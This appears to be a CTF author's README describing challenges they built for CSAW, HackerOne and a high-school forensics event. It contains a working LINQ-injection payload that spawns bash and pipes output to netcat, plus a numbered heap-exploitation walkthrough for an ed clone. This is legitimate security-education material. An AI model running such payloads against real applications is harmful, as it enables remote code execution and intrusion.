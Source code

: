 # ctf_challenges

## CSAW CTF 2016 Finals

### [linq_to_the_present](https://github.com/osirislab/CSAW-CTF-2016-Finals/tree/master/Web/linq_to_the_present)

This was basically SQL Injection in Linq which, unfortunately, gives you RCE.

```
"".GetType().Assembly.GetType("System.AppDomain").GetMethods()[18].Invoke("".GetType().Assembly.GetType("System.AppDomain").GetProperty("CurrentDomain").GetValue(null), "System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089;System.Diagnostics.Process".Split(";".ToCharArray())).GetType().GetMethods()[80].Invoke(null, "bash;-c 'ls | nc 0 9001'".Split(";".ToCharArray()))
```

### [Ed, Edd, and Eddie](https://github.com/osirislab/CSAW-CTF-2016-Finals/tree/master/Pwn/Ed-Edd-Eddie)

An ed, [the standard editor](http://wiki.c2.com/?EdIsTheStandardTextEditor), clone but without the easy `!/bin/sh` shellcode.

This challenge did not require any memory corruption. The goal of this challenge was to make people understand how to use ed, heh.

1) Use ed commands to load the ed binary into ed and print it out
2) Join two lines so that the length becomes [out of sync](https://github.com/osirislab/CSAW-CTF-2016-Finals/blob/master/Pwn/Ed-Edd-Eddie/ed.c#L227)
3) Allocate some strings on the heap
4) Since the program thinks the size of the line is really big (as a result of a lot of subtractions being done to the line length), we can search for all ascii chars (0-255) using find and parse out the results to essentially leak the heap
5) From the heap leak, you can pull the filename which was randomly generated
6) Put payload file path on the heap
7) [Overflow the mark table](https://github.com/osirislab/CSAW-CTF-2016-Finals/blob/master/Pwn/Ed-Edd-Eddie/ed.c#L253) until you can change the `can_save` and `filename`.
8) Create a stripped down shared object with shellcode
9) Now that we know the name of the file, we can write our payload to it and load it to execute our shellcode

[ed.py](https://github.com/osirislab/CSAW-CTF-2016-Finals/blob/master/Pwn/Ed-Edd-Eddie/ed.py)

## CSAW CTF 2018 Quals

### [turtles](https://github.com/osirislab/CSAW-CTF-2018-Quals/tree/master/pwn/turtles)

Pretty straight forward ROP challenge with a slight twist of having to craft a fake obj-c dtable method lookup. You can check out the internals of obj-c for linux [here](https://github.com/gcc-mirror/gcc/tree/41d6b10e96a1de98e90a7c0378437c3255814b16/libobjc).

[turtles.py](https://github.com/osirislab/CSAW-CTF-2018-Quals/blob/master/pwn/turtles/turtles.py)

## HackerOne CTFs

A collection of CTFs that I made for HackerOne which are mobile focused, with a bit of web.

* h1-702-2017 - iOS (5 challenges) and Android (5 challenges) crackmes with incremental difficulty
* h1-202-2018 - A single app which calls into server components. I really liked making this one a lot since you had to progress through the challenge to solve it all. It was also my first time using Retrofit and I really wish I knew about it earlier lol
* h1-702-2018 - Five Android challenges: 3 crackmes and 2 pwnables (Object deserialization and memory corruption). It was really cool to have pwnable challenges for mobile, but operations wise it was a [complete failure](https://breadchris.github.io/ctf/android/2018/06/10/android-pwnable-ctf-challenges/). I plan on making this a lot better for the next time.

[(h1-ctf-archives](https://github.com/Hacker0x01/h1-ctf-archives)

## MCPS HSFs

A CTF that I put on annually for a school county for high schoolers. It is a mock digial forensics investigation which has flags, but is not a jeapordy style CTF. You have to make your way through the evidence and write a report on your findings. Based on the flags that the teams found, you can do an initial filtering of all the competitors and identify the top finishers. Then, you will read through their reports and identify the teams which successfully solved the crime and found the most incriminating evidence. I started running this when the high school event I used to run, CSAW HSF, unfortunately became a mind numbing jeapordy style CTF. I love this format and have plans to operationalize it so that schools across the world can run their own version of it.

* [MCPS HSF 2016](https://github.com/breadchris/MCPS-HSF-2017)
* [MCPS HSF 2017](https://github.com/breadchris/MCPS-HSF-2017)
* [MCPS HSF 2018](https://github.com/breadchris/mcps-hsf-2018)


